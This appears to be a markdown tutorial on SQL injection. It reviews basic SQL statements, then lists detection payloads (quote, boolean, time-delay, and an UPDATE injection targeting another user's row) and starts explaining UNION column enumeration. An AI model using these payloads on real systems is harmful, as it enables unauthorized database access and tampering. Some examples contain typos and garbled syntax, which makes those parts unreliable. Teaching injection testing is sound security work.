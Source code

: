 
# SQL Injection Manual

SQL injection is a type of injection attack where attacker injects arbitrary SQL queries into database server using input options


## Important Note

SQL Version and program can be different in different sites
Like MySQL  , PostGrsql , Oracle , MsSQL etc. So the syntax is also different in them. [FOLLOW THIS FOR TESTING](https://portswigger.net/web-security/sql-injection/cheat-sheet)




## CURD Operation In SQL 

Create (INSERT):

```sql
  INSERT INTO table_name (column1, column2, ...) VALUES (value1, value2, ...)
  INSERT INTO customers (name, email, phone) VALUES ('John Doe', 'john@example.com', '123456789')
```

Read (SELECT):

```sql
  SELECT column1, column2, ... FROM table_name WHERE condition
  SELECT * FROM customers WHERE uid = 1
```

Update (UPDATE):

```sql
  UPDATE table_name SET column1 = value1, column2 = value2, ... WHERE condition
  UPDATE customers SET email = 'newemail@example.com' WHERE id = 1
```

Delete (DELETE):

```sql
    DELETE FROM table_name WHERE condition
    DELETE FROM customers WHERE id = 1
```


## SQL Injection Detection and confirmation



```SQL
  # Error Based PAYLOADS [;,--,',",#]
  name=hacker'

  # Condition Based Detection
  name=hacker'and 1=1-- (Sucess Execution)
  select name from users where id=1 and 1=1;--;

  name=hacker'and 1=2-- (Failed  Execution)
  select name from users where id=1 and 1=2;--;


  email=newemial@gmail.com' WHERE id= {not_yours};--
  UPDATE customers SET email = 'newemail@example.com' WHERE id = -1 ;--
  # Blind Based PAYLOADS
  email=test@emial.com' WAITFOR DELAY '0:0:10'--

  
```

## Exploitation

### How Union Works

```sql
# Union is used to concatinate two queries into 1 result and show it to user
Select Column1 , Column2 from table1 Union select column3 and column4 from table2
# This Will Concatinate Column1,Column2,Column3,Column4 at One result
# Rule to make union work 
(i) Number of columns should be same in two tables
(ii) Datatypes must be same

# So to determine number of columns called in f++
++irst query we will use
select ?(don't know) from table1 UNION select NULL
# if the number of column mismatch we will get an error and we have to try again
select ?(don't know) from table1 UNION select NULL,NULL'NULL
# Until we get to know how many columns are called
```
